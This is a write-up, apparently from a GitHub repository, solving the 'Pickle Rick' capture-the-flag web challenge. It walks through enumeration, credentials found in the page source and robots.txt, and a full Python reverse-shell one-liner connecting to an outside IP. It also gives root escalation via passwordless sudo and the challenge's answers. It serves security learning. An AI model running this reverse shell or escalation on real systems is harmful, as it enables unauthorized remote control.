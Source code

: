 # Pickle-Rick
A CTF exploiting a vulnerable web server

### Enumeration

The first step I took was going to the webpage and view the page source to see if there was any useful information. Here I found a username was hidden the source code.

Website

![website](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Webpage.png)

The username shown was: R1ckRul3s
Username

![username](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Page%20Source.png)

After finding the username I ran gobuster to see if there were any additional webpages to exploit. This showed a robots.txt file that I navigated to.

![gobuster](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Gobuster.png)

The robots.txt page showed a password that I then used to login to the login.php page that was also found when I ran gobuster.
The password shown was: Wubbalubbadubdub

![robots](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Robots.png)
![login page](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Portal%20Login%20Page.png)

Once logged in I found a command line that I ran a ls -al in. Here I found that there was a file named Sup3rS3cretPickl3Ingred.txt. I tried to cat the file but ran into a message saying the command was disabled.

![ls -al](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/ls%20-al.png)
![cat file](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Trying%20to%20cat.png)

Since there was a command line, I decided that the best approach would be to set up a netcat listener and try to get a reverse shell to exploit the webpage.

The first step was to find what python is running on the system, which was python3. Then I went to pentestmonkey.net to find a python reverse shell script. The script I found was: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
I had to change python to by python3, change the ip address to my kali machine ip address, and lastly I changed the listening port to 9001.

![which python](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Which%20Python.png)

### Ingredient 1
I started a netcat listener on port 9001 and then concatenated the Sup3rS3cretPickl3Ingred.txt file. This showed that the first ingredient needed is mr. meeseek hair.

![ingredient 1](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%201.png)

### Ingredient 2
To find ingredient 2 I went to the root directory, ran an ls, went into the home directory, then into user rick, and ran a ls on the second ingredients file to find that the second ingredient is jerry tear.

![ingredient 2](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%202.png)

### Ingredient 3
The final ingredient appears to be in the root folder, which I do not have access to. Running a sudo -l shows that all commands can be run without needing a password.
Running sudo bash -i allows me to run a super user shell to move into the root folder. Once in the root folder I was able to run a ls and cat the 3rd.txt file, showing the final ingredient is fleeb juice.

![moving to root](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Move%20to%20Root.png)
![ingredient 3](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%203.png)
